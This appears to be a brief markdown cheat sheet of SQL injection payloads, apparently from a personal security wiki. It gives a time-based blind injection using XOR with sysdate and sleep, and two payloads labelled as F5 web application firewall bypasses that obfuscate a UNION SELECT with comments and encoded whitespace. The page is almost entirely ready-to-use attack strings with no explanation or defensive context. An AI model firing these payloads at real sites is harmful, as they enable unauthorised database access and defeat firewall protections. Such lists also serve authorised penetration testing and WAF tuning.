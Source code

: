 # General

Sysdate/Sleep/XOR:

```
`0'XOR(if(now()=sysdate(),sleep(6),0))XOR'`
```

# F5

F5 [[WAF Bypass]] 1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

F5 [[WAF Bypass]] 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```


